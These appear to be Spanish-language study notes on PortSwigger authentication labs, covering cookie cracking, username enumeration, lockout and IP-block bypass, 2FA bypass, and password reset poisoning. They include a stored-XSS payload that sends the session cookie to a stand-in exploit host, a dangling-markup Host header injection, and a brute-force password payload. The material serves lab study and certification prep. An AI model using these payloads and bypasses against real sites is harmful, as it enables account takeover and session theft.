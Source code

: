 Las vulnerabilidades de autenticación suelen ser un poco faciles de entender, sin embargo son fundamentales tener el concepto entre autenticación y seguridad, ya que esto es lo que nos provee el acceso a datos confidenciales de una aplicación.

Ademas las vulnerabilidades de autenticación tiene un factor importante y es que los ataques por autenticación siempre nos permiten obtener una superficie de ataque adicional para futuras vulnerabilidades.

### Cookie Stay-Logged In

![[Pasted image 20250215124453.png]]

```
Cookie del tipo Base64(username:password(mD5))
En usernames List, tengo listo todo encodeado a base64 y las passwords a MD5
```

```
Con Passwords List: (si no existe rate limit)
1. username=victimUser&password=[burp Intruder] //302 OK
2. username=[burp Intruder]&password=password Victim //Grep Match "Invalid username or password" -- O el mensaje de error que salga, para que el no retorne ese grep, es el username correcto, luego llevar el mismo ataque pero con password y esperar el 302 Ok
3. Cluster Bomb: X-Forwarded-For:[Burp intruder] 
	1. username=[burp intruder]&password=peter5peter5peter5peter5++;
	La password tiene mas o menos unas 20 veces repetidas la contra peter5 para  poder alcanzar una longitud de 100 caracteres y que sea diferenciable los tiempos de recibidos para cuando tome el username correcto (peter5 solo es testeo)
	2. Luego de que nos de una respuesta diferencial, solo es cuestión de probar ahora para el parametro password=[burp intruder] y que nos de 302oK
```

### Stay-logged-in Offline Crack `XSS Stored` `hash md5`

* Si el hash no se desencripta con alguna tool, busco directamente el hash en internet a ver si aparece. 

> The blog application comment function is vulnerable to [stored XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```

> Base64 decode the `stay-logged-in` cookie value and use an online **MD5** hash crack station database.

[![stay-logged-in Offline](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/stay-logged-in-offline.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/stay-logged-in-offline.png)

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

### Autentication protección brute force block IP

Y si, lo que tuvimos que hacer fue configurar los .txt de user para crear uno nuevo que tuviese la siguiente estructura:

```arduino
wiener
carlos
wiener
carlos 
.
.
. #así hasta que carlos se repitiera 100 veces. 
```

y hacer un passwords_auth.txt para las contraseñas:

```arduino
peter 
randomPass
peter
randomPass
peter
randomPass
. 
.
. Así sucesivamente para poder alinear las contraseñas del diccionario con el user carlos. (randomPass es de la lista de contraseñas de portswigger)
```

Ahora bien, ¿por qué tenemos que añadir tantas veces a **wiener**? por que esta es una forma de bypassear los intentos de inicio de sesión en una aplicacion, como ya tenemos el username **wiener**, con el podemos reiniciar la cuenta de bloqueos de IP para varios intentos fallidos de inicio de sesión, y si por eso lo hacemos así, para que **Carlos** que es el username victima que conocemos pueda ir probando cada contraseña del diccionario hasta que nos arroje un **302**.

### Autentication bloqueo de cuenta: 

```
* username=[burp intruder]&password=a[burp intruder] de tipo cluster bomb el primer payload para usernames list el segundo payloads de **null payloads** hasta lograr encontrar una length diferente a las demás, ya luego tirar el ataque con: 
* username=victimusername&password=[tubro intruder] y grepear los resultados pa' pillar el que difiere. 
```

###  Autentication multiples credenciales por solicitud JSON

![[Pasted image 20250215123059.png]]

```
{"username":"carlos",
"password":["123456","password","12345678",
"qwerty","123456789","12345","1234",
"111111","1234567","dragon","123123",
"baseball","abc123","football","monkey",
"letmein","shadow","master","666666",
"qwertyuiop","123321","mustang","1234567890",
"michael","654321","superman","1qaz2wsx",
"7777777","121212","000000","qazwsx",
"123qwe","killer","trustno1","jordan",
"jennifer","zxcvbnm","asdfgh","hunter",
"buster","soccer","harley","batman","andrew",
"tigger","sunshine","iloveyou","2000","charlie",
"robert","thomas","hockey","ranger","daniel",
"starwars","klaster","112233","george","computer",
"michelle","jessica","pepper","1111","zxcvbn","555555",
"11111111","131313","freedom","777777","pass","maggie",
"159753","aaaaaa","ginger","princess","joshua","cheese",
"amanda","summer","love","ashley","nicole","chelsea",
"biteme","matthew","access","yankees","987654321",
"dallas","austin","thunder","taylor","matrix",
"mobilemail","mom","monitor","monitoring",
"montana","moon","moscow"]}
```

### Autenticación simple bypass 2FA:

Si primero se le solicita al usuario que ingrese una contraseña y luego se le solicita que ingrese un código de verificación en una página separada, el usuario se encuentra efectivamente en un estado de "iniciar sesión" antes de ingresar el código de verificación. En este caso, vale la pena probar para ver si puede pasar directamente a las páginas "solo para quienes han iniciado sesión" después de completar el primer paso de autenticación. Ocasionalmente, encontrará que un sitio web en realidad no verifica si completó o no el segundo paso antes de cargar la página.

### Autenticacion lógica rota 2FA: 

Si encontramos un mfa-code=[turbo intruder] de tipo payload>brute force, con el min y max de length segun esté establecido el mfa-code y letras a-z-0-9 pero si solo son numeros entonces 0-9. 

### Autentication password cracking online: `stay-logged-in`

![](Pasted%20image%2020250221105018.png)

```js
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```

Nos llega la cookie de session y simplemente la decodeamos como sea necesario, base64>md5>take password. 

### Autentication password reset poisoning

Para este caso con solo tomar el endpoint ==POST forgot-password/ HTTP/1.1==
y el Host: exploit-server.net y cambiamos el username a el victimUser podemos lograr que nos llegue a nuestro server exploit el token de reset password. 

![[Pasted image 20250215125429.png]]

### Autentication Password reset poisoning via Middleware `X-Forwarded-Host:`

Hacemos lo mismo del anterior, y nos llega el token de reset. 

![[Pasted image 20250215125622.png]]

### Autentication brute force cambio de contraseña

Algo util y logico es si se cambia la contraseña y el error de las nuevas contraseñas si son diferentes retornan: "New Passwords Dont Match" esta a sujeta a aparecer pero si la contraseña actual es correcta, por lo tanto si una contraseña está incorrecta tira de primeraso es "Current Password is incorrect", por lo tanto un burp intruder a contraseña actual y grepear por "new passwords dont match" el que lo filtre y saque el resultado, esa es la password, actual. 

### Autentication password reset via Dangling Markup 

En este caso, el ataque es en el endpoint `POST forgot-password/ HTTP/1.1` que lo estructuramos y se puede inyectar en el header Host. 
![[Pasted image 20250215131349.png]]

```
Host: web-security-academy.com:'<a img src="EXPLOIT-SERVER.NET/?
Cambiamos el param de user al userVictim claro, nos llega el correo a nuestro exploit server, tomamos la password nueva y listo. 

```

